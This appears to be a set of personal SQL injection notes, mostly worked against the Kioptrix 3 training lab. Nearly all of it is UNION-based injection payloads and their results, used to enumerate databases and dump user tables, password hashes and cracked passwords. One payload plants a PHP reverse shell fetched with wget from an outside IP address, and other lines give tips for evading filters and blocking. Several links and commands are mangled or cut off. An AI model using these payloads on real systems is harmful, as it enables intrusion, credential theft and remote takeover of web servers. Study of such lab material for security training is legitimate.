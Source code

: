 # **Error based SQL**

We get the output of the first select statement, but not the second. A possible reason is that the application only prints one entry at a time. So let’s modify our query to give the first select statement a cod value that doesn’t exist so that it prints out the result from the second statement.  
{*******Impotant***** read it before proceeding- → if working with id =1 union but error not showing..use invaild id so that union command can run like cod=-9999}  
---------------------------------------------------------------------------------------------------------------  
?cod=9999 union select 1,@@version,3,4,5,6,7  
  
9999 union select 1,(select '<?php exec(\"wget -O /var/www/html/shell.php ['),3,4,5,6,7">http://](http://10.10.14.12:5555/php-reverse-shell.php/)x.x.x.x  
  
or also can gather password of mysql  
  
Now we know it’s using MariaDB version x.x.x.x  
  
union select 1,(SELECT host, user, password FROM mysql.user),3,4,5,6,7  
  
We get nothing because we’re querying more than one column in the sub select query. Let’s verify that by just outputting the password column.  
  
union select 1,(SELECT password FROM mysql.user),3,4,5,6,7  
  
We get a hash! In order to output multiple columns, you can use the group_concat() function.  
  
union select 1,(SELECT group_concat(host,user,password) FROM mysql.user),3,4,5,6,7  
  
It worked! Now we know that the database is running on localhost, the user is DBadmin and the hash is 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0. We can crack the hash quickly using crackstation.net.  
----------------------------------------------------------------------------------------------------------http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,4,table_name,6+from%20information_schema.tables {list all databses tables ;)}  
http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,4,column_name,6+from%20information_schema.columns where table_name='users' {list all databses column of this table;)}  
  
http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,name,password,6+from users  
======================================================================  
  
http://<target ip>/comment.php?id=771%20%20union%20select%201,2,3,4,gRoUp_cOncaT(0x0a,schema_name,0x0a),6+fRoM+information_schema.schemata  
======================================================================  
To bypass blocking:  
./sqlmap.py --headers="User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:25.0) Gecko/20x.x.x.x  
  
  

### wfuzz -c -z range,1-x.x.x.x  
  
wfuzz -c -z range,1-x.x.x.x  
  
  
wfuzz -c -z range,1-x.x.x.x  
  

[http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,@@version,4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,@@version,4,5,6)

### {5.0.36}  
  

[http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,user(),4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,user(),4,5,6)

### {root@localhost}  
  

[http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,database(),4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,database(),4,5,6)

### {gallary}  
  

[http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,@@datadir,4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,@@datadir,4,5,6)

### {/var/lib/mysql}  
  
kioptrix3.com/gallery/gallery.php?id=1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()  
{dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users}  
  
kioptrix3.com/gallery/gallery.php?id=1 union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_name='<table name>'  
{ex

[http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,group_concat(column_name),4,5,6%20from%20information_schema.columns%20where%20table_name=%27dev_accounts%27}](http://kioptrix3.com/gallery/gallery.php?id=1%20union%20select%201,2,group_concat(column_name),4,5,6%20from%20information_schema.columns%20where%20table_name=%27dev_accounts%27})

###   
{Result- id,username,password}  
  
kioptrix3.com/gallery/gallery.php?id=1 union select 1,2,group_concat(<column name>),4,5,6 from <table name>  
{kioptrix3.com/gallery/gallery.php?id=1 union select 1,2,group_concat(username,0x3a,passwd),4,5,6 from dev_accounts--}  
  
dreg,loneferret  
0d3eccfb887aabd50f243b3f155c0f85 MD5 Mast3r  
5badcaf789d3d1d09794d8f021f40f0e MD5 starwars

  
  
---------------------------------------------------Important******************************888888888  
  
To get all the database of mysql  
  
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata  
http://x.x.x.x